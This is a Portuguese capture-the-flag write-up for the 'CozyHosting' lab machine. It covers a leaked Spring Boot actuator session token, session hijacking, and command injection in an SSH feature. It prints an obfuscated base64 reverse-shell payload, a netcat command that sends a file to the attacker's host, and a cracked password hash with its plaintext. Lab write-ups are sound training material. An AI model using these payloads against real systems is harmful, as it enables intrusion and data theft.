

# Writeup cozyhosting

## Scan
```
Nmap scan report for 10.129.229.88
Host is up (0.22s latency).
Not shown: 65055 closed tcp ports (reset), 478 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Uptime guess: 12.529 days (since Sat Dec 23 06:21:14 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   220.98 ms 10.10.14.1
2   221.24 ms 10.129.229.88

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  4 19:02:25 2024 -- 1 IP address (1 host up) scanned in 362.52 seconds
```

## Enumeration & Exploitation

  Após o scan, começamos a enumerar a máquina. É possível encontrar uma página chamada "login" no fuzzing.


  Após um tempo de busca, foi encontrado um path do springboot chamado "actuator" utilizando o nuclei.


  Com o path encontrado, conseguimos enconntrar o endpoint "http://cozyhosting.htb/actuator/sessions" que possui um token de sessão do usuário "Kanderson". Podemos utilizar esse token para fazer Session Hijacking e acessar o painel de login.


  Logado no painel, podemos identificar uma feature de conexão ao ssh. Podemos utilizar esse feature para executar comandos (Command Injection).


  Descoberto a vulnerabilidade de command injection, podemos utilizá-la para pegarmos reverse shell.
  O host possui bloqueio contra espacos em branco e, depois de uma pesquisa, foi descoberto como dar bypass --> https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces  
  Tendo descoberto o bypass, foi utilizado o payload generator para criar um payload encodado em b64.

Payload:
```
$(echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjExLzEyMzQgMD4mMQ=="${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash)
```

  Com isso, é possível obter shell reversa e ter acesso ao host.



  Com a reverse shell, podemos identificar um arquivo chamado "cloudhosting-0.0.1.jar" no diretorio "app".  
  Utilizamos o netcat para mandar o arquivo para nossa máquina usando netcat (nc 10.10.14.211 7777 < cloudhosting-0.0.1.jar) para podermos analisá-lo usando o jadx.  
  Após uma análise, é possível encontrar o usuário e senha do banco de dados.


  Com o usuário e senha do banco de dados, é possível logar no banco e encontrar uma hash de senha para um usuário chamado "admin".  
  Utilizamos o https://hashes.com/en/decrypt/hash para decryptar o hash e logar via ssh no usuário "josh".

**Hash:** $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
**Password:** manchesterunited


## Privilege Escalation

  Após logar com o usuário "josh", podemos utilizar o comando **sudo -l** e ver que ele possi permissão de execucao do ssh.  
  Utilizamos o https://gtfobins.github.io/gtfobins/ssh/#sudo para pegar shell como root.


